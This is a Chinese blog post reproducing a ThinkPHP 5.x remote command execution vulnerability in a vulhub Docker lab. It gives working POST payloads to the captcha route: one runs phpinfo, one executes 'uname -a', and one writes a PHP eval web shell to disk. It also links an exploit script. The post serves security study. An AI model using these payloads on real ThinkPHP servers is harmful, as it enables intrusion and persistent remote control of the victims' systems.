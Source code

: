 ```yaml
---
layout: post
title: "Thinkphp 5.*_ 全版本命令执行复现"
subtitle: "Thinkphp 5.* Command execution"
date: 2019-01-16
author: ppbibo
category: security
finished: true
---
```

[TOC]

Thinkphp 5.* Command execution

## 正文

靶机提供：[vulhub/thinkphp/5.0.23-rce at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

执行:

```
docker-compose up -d
```

打开：[http://10.37.129.2:8080/](http://10.37.129.2:8080/)

![img](/static/img/111.png) 

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

![img](/static/img/000.png) 

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=uname -a
```

![img](/static/img/aaa.png) 

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '404<?php @eval($_POST[cmd]);?>' >> hakcer.php
```

![img](/static/img/444.png) 

[九世大佬利用脚本：thinkphp_5.*_Remote Execution.py](https://github.com/ppbibo/Information-Security-Personnel-Tools/blob/master/thinkphp_5.*_Remote Code Execution.py)

![img](/static/img/qqq.png) 

```
# 测试完成后，删除整个环境.
docker-compose down
```

[参考九世大佬](https://422926799.github.io/2019/01/11/thinkphp-5-Remote-Code-Execution/)

[参考陌航哥哥](https://www.wileysec.com/archives/502/)